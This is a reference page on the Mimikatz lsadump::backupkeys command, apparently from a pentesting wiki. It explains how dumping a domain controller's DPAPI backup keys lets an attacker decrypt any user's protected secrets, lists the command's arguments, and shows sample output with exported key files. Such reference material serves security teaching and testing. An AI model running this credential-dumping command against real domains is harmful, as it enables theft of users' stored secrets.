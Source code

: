 # backupkeys

`lsadump::backupkeys` dumps the DPAPI backup keys from the Domain Controller (cf. [dumping DPAPI secrets](https://www.thehacker.recipes/ad/movement/credentials/dumping/dpapi-protected-secrets)). By holding the backup keys any user's master key can be decrypted and as a result the users' secrets can be decrypted. It has the following command line arguments:

* `/export`: export the output as `.pvk` which means "_private key_"
* `/secret`: _at the time of writing, November 1st 2021, we don't know what this option refers to_
* `/system`: the target DC hostname
* `/guid`: The `szGuid` value. It can be found at `C:\Users\<username>\AppData\Roaming\Microsoft\Credentials`, `C:\Users\<username>\AppData\Local\Microsoft\Credentials` and `C:\Users\<username>\AppData\Roaming\Microsoft\Protect\SID`. It can also be obtained with [sekurlsa::dpapi](https://tools.thehacker.recipes/mimikatz/modules/sekurlsa/dpapi)

{% hint style="warning" %}
This command requires elevated privileges (by previously running [privilege::debug](https://tools.thehacker.recipes/mimikatz/modules/privilege/debug) or by executing Mimikatz as the `NT-AUTHORITY\SYSTEM` account).
{% endhint %}

```
mimikatz # lsadump::backupkeys /export

Current prefered key:       {e3364acb-379c-4775-bef7-c3c1e1992589}
  * RSA key
        |Provider name : Microsoft Strong Cryptographic Provider
        |Unique name   :
        |Implementation: CRYPT_IMPL_SOFTWARE ;
        Algorithm      : CALG_RSA_KEYX
        Key size       : 2048 (0x00000800)
        Key permissions: 0000003f ( CRYPT_ENCRYPT ; CRYPT_DECRYPT ; CRYPT_EXPORT ; CRYPT_READ ; CRYPT_WRITE ; CRYPT_MAC ; )
        Exportable key : YES
        Private export : OK - 'ntds_capi_0_e3364acb-379c-4775-bef7-c3c1e1992589.keyx.rsa.pvk'
        PFX container  : OK - 'ntds_capi_0_e3364acb-379c-4775-bef7-c3c1e1992589.pfx'
        Export         : OK - 'ntds_capi_0_e3364acb-379c-4775-bef7-c3c1e1992589.der'

Compatibility prefered key: {b799ff33-a573-444f-bc86-b8aeb36fcb3f}
  * Legacy key
561acf46e03db74112af7412402415d80dfe92b0fbf57588358647007d46f28f
8f6ca1990c0fee951bd52e69e9bdfbf9c8e07be0033dff21a71d192447668096
f6e1199e5b8b61fb3ffb758a92757efe863307cefd7d773476053286c08dc7c6
87671f0e7374ccc179e6cf718673beb80dfe12bf03c7914a767a959b66478498
14527ee085f014c7574d9b9388dae00f42ee91f96e97c8272d6955e51e2d7304
67be8b32a706203bacf3abaca3d9f1ec90e4d63290e39d2e6c2465fc0e195b7a
2baadcb281537863a37c2e0f76d025ecb7a23b81970dbe2ab8e77b3b2fb617d7
bb7b81126e17a60d3023b0b8db159dd927f49136ce14f29565d3d9794d2f9c79

        Export         : OK - 'ntds_legacy_0_b799ff33-a573-444f-bc86-b8aeb36fcb3f.key'
```
